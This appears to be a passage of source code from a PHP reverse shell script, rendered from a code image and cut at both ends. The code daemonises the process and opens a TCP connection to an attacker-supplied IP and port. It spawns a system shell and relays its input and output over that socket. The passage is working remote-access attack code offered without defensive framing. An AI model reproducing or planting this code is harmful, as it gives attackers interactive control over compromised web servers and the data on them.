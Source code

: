 ```php
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
```